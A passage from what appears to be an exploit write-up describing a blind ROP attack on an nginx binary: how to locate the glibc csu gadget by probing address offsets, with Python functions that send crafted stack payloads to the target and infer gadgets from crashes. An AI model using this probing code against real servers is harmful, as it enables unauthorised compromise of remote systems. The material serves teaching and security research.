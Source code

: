 We would like to find this gadget for a few reasons:
- it is present in every binary linked with glibc (and this one is)
- it allows us to control `rdi` and `rsi`, the registers used for the first two arguments in a function call

Disassembling at offsets +7 and +9 from the first instruction above produces the ubiquitous `pop rsi; pop r15; ret` and `pop rdi; ret` gadgets that we are familiar with (side note: this is why they are almost everywhere!). The general procedure for finding this gadget is to look for an address that pops six values off the stack. Then, we must further verify it by testing offsets from that address (since popping six values off the stack does not necessarily mean we have found the right gadget).

- offset 0 should pop six values
- offset 1 should pop five values
- offset 2 should pop four values
- offset 3 should crash, since it disassembles to `pop rsp` which returns to somewhere invalid
- offset 4 should pop three values
- offset 5 should pop three values
- offset 6 should pop two values
- offset 7 should pop two values
- offset 8 should pop one value
- offset 9 should pop one value
- offset 10 should pop no values

This gives the following code:

```python
def stops(p):
  stop = b'000' in p.recv(timeout=2)
  p.close()
  return stop

def pops(addr, num):
  p = send_stuff(password + p64(addr) + p64(0)*num + p64(stop))
  return stops(p)

def check_csu(addr):
  # must crash
  p = send_stuff(password + p64(addr+3))
  r = p.recvuntil('\r\n')
  p.close()
  if b'502' not in r:
    return False
  num_pops = [6, 5, 4, 4, 3, 3, 2, 2, 1, 1, 0]
  for k, p in enumerate(num_pops):
    if k in {0, 3}:
      continue
    if not pops(addr+k, p):
      return False
  return True
```

Searching for this gadget turned out to be quite a challenge. Note that this function always appears at the end of the binary after the rest of the code, so we can start at the leaked return address and move up. However, our choice of stop gadget ended up wasting us a lot of time because the `pop rbx` at the beginning of the csu gadget caused our stop gadget to fail. In addition, the nginx binary is so large that searching linearly took far too long.
